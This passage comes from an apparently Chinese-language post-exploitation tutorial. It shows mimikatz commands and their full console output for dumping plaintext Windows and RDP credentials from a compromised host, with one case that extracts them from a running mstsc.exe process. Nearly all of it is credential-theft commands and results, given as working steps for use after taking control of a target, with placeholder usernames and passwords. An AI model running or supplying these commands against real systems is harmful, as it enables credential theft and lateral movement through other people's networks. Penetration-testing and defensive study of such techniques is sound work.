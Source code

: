 ```console

mimikatz(commandline) # ts::logonpasswords
!!! Warning: false positives can be listed !!!

   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   * Web Credentials? *
   Domain      : hostname_domain
   UserName    : administrator

  * Marshaled: [BinaryBlob] e7 03 00 00 00 00 00 00 0b e6 d8 02 90 0e 14 47 43 28 17 8f 81 6d 15 78 4f 98 25 11 12 ea a0 98
   Domain      : hostname_domain
   UserName    : Administrator
   Password/Pin: Admin@123

mimikatz(commandline) # exit
Bye!

```

情况二：在获取到目标主机控制权后，发现当前主机正在使用 RDP 客户端连接其它远程主机时。

可以从进程 mstsc.exe 中提取出所使用的用户明文凭据：

```console
PS C:\Windows\System32> tasklist | findstr "mstsc.exe"
mstsc.exe                     8272 Console                    1    228,148 K

PS C:\Windows\System32> .\mimikatz.exe 'privilege::debug' 'ts::mstsc' 'exit'

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # ts::mstsc
!!! Warning: false positives can be listed !!!

| PID 3060      mstsc.exe (module @ 0x00000000008DFBD0)

ServerName                                [wstring] 'xx.xx.xx.xx'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] 'xx.xx.xx.xx'
UserName                                  [wstring] 'Administrator'
Domain                                    [wstring] 'hostname_domain'
Password                                  [protect] 'Admin@123'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
```